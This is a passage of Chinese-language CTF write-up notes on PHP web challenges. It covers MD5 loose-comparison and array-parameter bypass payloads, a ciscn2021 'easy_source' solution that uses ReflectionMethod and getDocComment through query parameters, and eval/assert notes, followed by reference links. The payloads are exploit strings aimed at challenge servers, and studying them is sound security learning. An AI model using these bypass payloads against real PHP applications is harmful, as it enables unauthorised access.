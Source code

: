 param2=0ec20b7c66cafbcc7d8e8481f0653d18

param3=CbDLytmyGm2xQyaLNhWn

这里对结果不确定的可以用php在线运行平台跑下面代码检测

```php
<?php
if (md5('0ec20b7c66cafbcc7d8e8481f0653d18') == md5(md5('CbDLytmyGm2xQyaLNhWn')))
{
	echo "<br>Welcome to level 3!<br>";}
else
{ echo "false";}
```

最后一步直接利用无法判断函数的方法绕过

payload=?param1=0e251288019
&param2=0ec20b7c66cafbcc7d8e8481f0653d18
&param3=cbdlytmygm2xqyalnhwn
&param4[]=1
&param5[]=2

![image-20210529124634432](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210529124634432.png)





### ciscn2021 easy_source 

知识点：`PHP反射`，`ReflectionMethod` 构造 `User` 类中的函数方法，再通过 `getDocComment` 获取函数的注释，本例中使用`__toString` 同样可以输出函数注释内容。

![image-20210519172348127](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210519172348127.png)

扫描，发现.index.php.swo备份文件   swp  swn swo

![image-20210519162640507](C:\Users\Jang\AppData\Roaming\Typora\typora-user-images\image-20210519162640507.png)

最后两行意思是能够实例化任意类，并调用方法，可以利用php内置类的ReflectionMethod读取User类的各个函数的注释

```
$d = new ReflectionMethod('User','b');
var_dump($d->getDocComment());
payload=?rc=ReflectionMethod&ra=User&rb=a&rd=getDocComment
用bpIntruder遍历上面的rb替换字母出结果
```

### [NPUCTF2020]ReadlezPHP

#### eval和assert

二者都可以执行PHP语句。只不过是，eval规范更加严格一些，必须符合PHP代码要求。而assert则没有那么严格，执行PHP表达式即可。

##### eval定义和用法

函数把字符串按照 PHP 代码来计算，该字符串必须是合法的 PHP 代码，且**必须以分号结尾**。
如eval(“echo 1;”)


[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604